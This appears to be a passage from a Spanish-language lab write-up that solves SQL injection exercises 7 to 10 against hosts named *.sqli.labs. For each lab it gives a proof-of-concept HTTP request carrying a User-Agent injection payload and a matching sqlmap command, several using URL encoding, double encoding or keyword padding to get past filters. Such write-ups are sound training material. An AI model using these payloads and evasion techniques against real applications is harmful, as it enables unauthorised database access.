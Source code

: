 SQLMap automation:

```bash
sqlmap -u 'http://7.sqli.labs/' -p user-agent --technique=U --tamper=/path/to/your/tampering/scripts/fill.py --banner
```

### SQLi 8

Codificación de URL simple.

PoC:

```bash
GET / HTTP/1.1
Host: 8.sqli.labs
User-Agent: %61%61%61%61%27%20%75%6e%69%6f%6e%20%73%65%6c%65%63%74%20%40%40%76%65%72%73%69%6f%6e%3b%20%2d%2d%20%2d

SQLMap Automation:

sqlmap -u 'http://8.sqli.labs/' -p user-agent --tamper=charencode --technique=U --banner
```

### SQLi 9

Doble codificación.

PoC:

```bash
GET / HTTP/1.1
Host: 9.sqli.labs
User-Agent: %25%36%31%25%36%31%25%36%31%25%36%31%25%32%37%25%32%30%25%37%35%25%36%65%25%36%39%25%36%66%25%36%65%25%32%30%25%37%33%25%36%35%25%36%63%25%36%35%25%36%33%25%37%34%25%32%30%25%34%30%25%34%30%25%37%36%25%36%35%25%37%32%25%37%33%25%36%39%25%36%66%25%36%65%25%33%62%25%32%30%25%32%64%25%32%64%25%32%30%25%32%64

SQLMap Automation:

sqlmap -u 'http://9.sqli.labs/' -p user-agent --tamper=chardoubleencode --technique=U --banner
```

### SQLi 10

Este laboratorio combina el filtrado de palabras clave del reservar con una inyección en una función.

PoC:

```bash
GET / HTTP/1.1
Host: 10.sqli.labs
User-Agent: ') uZEROFILLnZEROFILLiZEROFILLoZEROFILLn sZEROFILLeZEROFILLlZEROFILLeZEROFILLcZEROFILLt 'PoC'; -- -

SQLMap Automation:

sqlmap -u 'http://10.sqli.labs/' -p user-agent --technique=U --tamper=/path/to/your/tampering/scripts/fill.py --prefix="notexistant')" --suffix="; -- " --union-char=els --banner
```

